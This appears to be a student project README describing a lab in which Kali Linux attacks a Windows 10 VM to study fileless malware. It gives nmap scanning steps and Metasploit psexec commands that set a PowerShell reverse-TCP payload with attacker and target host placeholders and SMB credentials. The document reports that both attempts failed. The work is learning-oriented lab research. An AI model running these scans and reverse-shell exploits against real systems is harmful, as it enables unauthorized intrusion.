








# Offensive Security Tools and Research

---

### Group Members
- Ryan Eisenbeis, Grayson Oldham, Owen Richard, Nycahri Griffin

### Project Description

- The purpose of this project is to conduct offensive security research primarily focused on identifying, exploiting, 
and mitigating fileless malware attacks within a Windows-based environment to improve cybersecurity defenses against
in-memory code execution. This project will simulate real-world fileless attacks within a controlled environment using 
a Kali Linux VM and a Windows 10 VM, providing a platform for fileless vulnerability discovery and exploitation. The 
tools that will be used in this research are Metasploit Framework, Nmap, and custom Python scripts, focusing on how 
these tools can be utilized to discover and exploit such attacks, providing insights for enhancing traditional 
cybersecurity defenses against fileless malware.

### Tools Used

- `Oracle VirtualBox VM` a virtualization software used for creating VMs
- `Windows 10 VM` a base Windows 10 VM, also the target VM for this project
- `Kali Linux VM` a VM configured with pre-installed offensive security tools, also the attacking VM in this project
- `Nmap` a network mapping Linux tool used to scan IP addresses and ports on a network
- `Metasploit Framework` a penetration testing Linux tool used for identifying and exploiting vulnerabilities on a system
 
---

# Phase 1 Objectives

- Set up the `Kali Linux VM` as the attack system
- Set up the `Windows 10 VM` as the target system.
- Use `Nmap` for port scanning and discovering vulnerabilities on the target system
- Document the technical steps taken and our findings.


# Phase 1.1 - Setting up the Windows 10 VM

- Download `Oracle Virtual Box VM` software from https://www.virtualbox.org
- Download the `Windows 10` iso image from https://www.microsoft.com/en-us/software-download/windows10
- Extract the files from the downloaded zip file
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **2 GB Memory**
  + **1 CPU**
  + **Create a Virtual Hard Disk with 60 GB of storage**
- Install the `Windows 10` iso image onto the newly created VM instance
- Change the **Network Adapter** to **Host-only Adapter** in the `Windows 10` machine settings
- Start the `Windows 10 VM` 


# Phase 1.2 - Setting up the Kali Linux VM
- Download the `Kali Linux` iso image from https://www.kali.org/get-kali/#kali-installer-images
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **8 GB Memory**
  + **4 CPUs**
  + **Create a Virtual Hard Disk with 80 GB of storage**
- Install the `Kali Linux` iso image onto the newly created VM instance
- Start the `Kali Linux VM`
- Select "Graphical Install" on the boot up menu
- Choose basic machine preferences
- Provide login credentials
- Choose clock settings
- Partition the Virtual Hard Disk with the following options:
  + **All files in one partition**
  + **Use entire disk**
  + **Select the /dev/sda ATA VBOX HARDDISK partition**
  + **Select "Yes" to write changes to the disk**
  + **Finish partitioning and write changes to disk**
- Select software preferences
- Install the GRUB bootloader on the /dev/sda partition
- Reboot the `Kali Linux VM` and sign in using the login credentials created

# Phase 1.3 - Port Scanning using Nmap

- The first step is to boot up the `Kali Linux VM` and the `Windows 10 VM`
- Once both VMs are started, we need to obtain the IP address of the target system
- To do this, run the following command in the `Windows 10 VM` terminal

**Displays IP configuration information on the system**
``` 
ipconfig
```

- Next, we will run an `Nmap` port scan to find all the open ports on the `Windows 10 VM` using the following command

**Scans all 65,535 ports on the target system and returns every open port**
```
nmap -p- <target ip>
```

- Some exploitable ports that were open on our target system are as follows:
  + `SMB port 139`
  + `SMB port 445`

**Screenshot of our nmap scan**



---

# Phase 2 Objectives

- Use `Metasploit Framework` to exploit an in-memory vulnerability
- Create a `Custom Python Script` to automate port scanning and exploitation
- Document the technical steps taken and our findings.

# Phase 2.1 - Exploiting using Metasploit Framework

- Now, we can use `Metasploit Framework` on our `Kali Linux VM` to exploit some vulnerabilities on these open ports
- Since `SMB ports 139 and 445` are open, we can attempt to exploit a PowerShell Reverse TCP vulnerability on the 
target system using the following commands

**Enter the Metasploit Framework terminal using this command**
```
sudo msfconsole
```


**We can search exploits specific to PowerShell using the following command**
```
search powershell
```



**Exploits an SMB vulnerability to execute a payload in memory using PowerShell**
```
use exploit/windows/smb/psexec
```



**Setting options for our exploit, such as payload, RHOST, and LHOST**
```
set payload windows/x64/powershell_reverse_tcp
set RHOST <target_ip>
set LHOST <attacker_ip>
```



**Runs the exploit**
```
exploit
```


**As we can see, our exploit was unsuccessful because we were denied access to the target system.
We can configure additional options for this exploit to try working around this error.**

**Setting additional options for our exploit, such as SMBuser and SMBpass for authentication**
```
set SMBuser <target_username>
set SMBpass <target_password>
```


**Trying the exploit again**
```
exploit
```



**As we can see, another unsuccessful attempt to create a Reverse TCP connection through PowerShell using open SMB ports.
At this point in our research, we are unsure how to proceed with exploiting a fileless attack through PowerShell via 
open ports on a Windows-based target system. However, we will continue to refine our methods to successfully create an
effective fileless attack on our Windows 10 VM.**

# Phase 2.2 - Automation using Python

-  Our objective here is to create a functional Python script to automate port scanning and vulnerability exploitation
- We will be using `Python3` for this phase of our research

**Our `Custom Python Script` can be found here:** https://github.com/eisenbeisr/CSC466-OffensiveSecurityResearch/blob/master/script.py


---